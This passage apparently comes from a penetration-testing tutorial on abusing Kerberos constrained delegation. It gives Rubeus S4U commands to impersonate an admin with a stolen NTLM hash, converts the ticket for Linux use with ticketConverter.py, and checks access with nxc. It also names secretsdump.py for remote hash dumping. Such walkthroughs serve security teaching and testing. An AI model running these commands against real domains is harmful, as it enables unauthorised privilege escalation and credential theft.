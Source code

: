 For the sake of demonstration, let's assume that we have compromised the `appsvc` account and have their NTLM hash.

#### Windows -> Linux

We'll perform the attack from Windows first, since it'll likely be more familiar to most readers.

```sh
execute-assembly Rubeus.exe s4u /msdsspn:[delegated_spn] /domain:[domain] /user:[user] /rc4:[ntlm hash] /impersonateuser:[user_with_local_admin] /ptt
```

> Remember to check if your `/impersonateuser` has local admin privileges on the target machine, and is not protected from delegation. See: [Protected Accounts](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts) and [Protected Users (Group)](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group)
{: .prompt-danger }

![28](https://i.gyazo.com/62e89678fd3f3c826cc3527d99ca35bb.png)

And the attack worked flawlessly, now let's see how we can pass this ticket to be used on Linux (i.e. `secretsdump.py` to dump hashes remotely).

Firstly, we'll need the ticket to be in a format that is easily copy-pastable to Linux; we can do this with the `/nowrap` flag and of course remove the `/ptt` flag.

```sh
execute-assembly Rubeus.exe s4u /msdsspn:[delegated_spn] /domain:[domain] /user:[user] /rc4:[ntlm hash] /impersonateuser:[user_with_local_admin] /nowrap
```

![29](https://i.gyazo.com/9bf98ef3a940f1dd4709f495f8945a35.png)

Similarly to before, we can do the same trick to convert the ticket to a format that is usable in Linux.

```sh
echo "[b64_ticket]" | base64 -d > ticket.kirbi && ticketConverter.py ticket.kirbi ticket.ccache && export KRB5CCNAME=ticket.ccache
```

![30](https://i.gyazo.com/17d48ecaeaae86d2b5617f5f26a21a78.png)

And, of course we can verify that the ticket is usable with `nxc`

```sh
nxc smb [IP/FQDN] --use-kcache
```

![31](https://i.gyazo.com/015982f7305b7f468e86444f27aa8194.png)

We can also use `describeTicket.py` to visualize the contents of our ticket, and you'll see that we have a ticket that is usable for the `CIFS` service on `US-MSSQL`. However, this means that we won't be able to use WinRM.

```sh
describeTicket.py ticket.ccache
```
